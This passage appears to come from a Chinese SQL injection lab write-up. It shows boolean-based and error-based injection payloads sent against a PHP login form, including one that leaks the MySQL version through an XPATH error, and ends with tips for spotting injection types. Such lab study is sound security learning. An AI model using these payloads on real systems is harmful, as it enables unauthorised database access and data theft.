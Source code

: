 ```php
uname=admin') and left(version(),1)>5 #&passwd=admin
```

测试成功

## 测试报错注入

```php
uname=admin') and extractvalue(1,concat(0x23,(select version()))) #&passwd=admin
```

XPATH syntax error: '#5.5.53'
测试成功

# 总结回顾

测试成功

1. 判断是不是回显注入，主要看查询正常时，有没有回显查询的数据。

2. 报错注入存在与否，主要是 php 源码中有没有 print_r(mysql_error());

3. 布尔注入，主要在于 if(\$row) 两种情况的回显处理是否相同。
4. 延时注入存在与否取决于什么？暂不知道 emm，以后知道再补。
